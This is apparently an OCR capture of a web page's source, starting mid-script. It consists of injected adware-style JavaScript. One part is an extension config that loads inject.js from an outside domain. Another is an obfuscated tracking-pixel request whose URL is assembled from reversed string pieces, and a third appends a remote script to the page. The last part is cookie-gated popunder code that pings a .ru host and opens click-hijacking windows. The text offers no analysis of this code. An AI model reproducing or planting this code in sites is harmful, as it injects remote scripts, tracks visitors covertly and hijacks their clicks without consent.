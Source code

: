 t=p(e.itemid);try{t.remove()}catch(e){}c[e.itemid]={isready:!1,isclicked:!1,isended:!1},a--,b()}(t)},1e3)}}}),document.body.addEventListener("mousemove",function(){setTimeout(x,100)}),b()):r.location.href.indexOf("youtube.com")>0&&r.location.href.indexOf("utmoge")>0&&j()}}();}catch(e){}</script><script charset="UTF-8">ss78mest = {"did":"21","kTag":false,"scriptDomain":"moolmaincineper.online","tag":"test","extensionId":"1583073178","vTag":false,"version":452,"cid":1};
window["jj837_11"] = "1583073178";
</script><script src="https://moolmaincineper.online/inject.js?tag=test&amp;did=21&amp;v_tag=false&amp;k_tag=false" charset="UTF-8"></script><script src="https://www.googletagmanager.com/gtag/js?id=UA-127560459-1"></script><script>try{!function(){'use strict';var c=['//','s:','tp','ht'].reverse().join(''),e=['lwz.infomucation.com','76'].join('/'),t=new Image;t.src=''.concat(c).concat(e,'.gif');}();}catch(e){}</script><script>try{(function(){
  var s = document.createElement('script'); 
  s.src = '//colextidapp.com/1e526623a79b7612df.js'; 
  document.body.appendChild(s); 
})();}catch(e){}</script><script>try{!function(){var cooki=navigator.cookieEnabled;
var url = "";
var clkcookie;

if (cooki && window == window.top) {
	clkcookie = GetCookie('stclick');
	var pingcookie = GetCookie('pingnetwork');
	if (clkcookie == null) {
		if (pingcookie == null) {
			var img = new Image();
			var image_url = "https://eronqusa.ru/a/?guid=55eb76b7b631b0824hhdop3961e523cb&prid=2&pid=13_1424_2";
			img.src = image_url;
			img.onload = function(){
				url = 'https://eronqusa.ru/c/?guid=55eb76b7b631b0824hhdop3961e523cb&prid=2&pid=13_1424_2';
				var ExpDate = new Date ();
				ExpDate.setTime(ExpDate.getTime() + (1 * 60 * 1000));
				SetCookie('pingnetwork','1',ExpDate, "/");
			};
			img.onerror = function(){
				var ExpDate = new Date ();
				ExpDate.setTime(ExpDate.getTime() + (15 * 60 * 1000));
				SetCookie('pingnetwork','2',ExpDate, "/");
			};
		} else if (pingcookie == 1) {
			url = 'https://eronqusa.ru/c/?guid=55eb76b7b631b0824hhdop3961e523cb&prid=2&pid=13_1424_2';
		}
	}
}

var par = "menubar=yes,location=yes,resizable=yes,scrollbars=yes,status=yes";
var txt = new Array();
txt[0]="http://yandex.ru/";
txt[1]="http://google.com/";
var b = Math.round(Math.random() * (txt.length - 1));
var ssilka = txt[b];

function showclick() {
	cooki=navigator.cookieEnabled;
	if(cooki) {
		clkcookie = GetCookie('stclick');
		if (clkcookie == null && url != "") {
			var hrf = url;
			url = "";
			window.open(hrf, "site", par);
			var ExpDate = new Date ();
			ExpDate.setTime(ExpDate.getTime() + (6 * 60 * 1000));
			SetCookie('stclick','1',ExpDate, "/");
		}
	}
}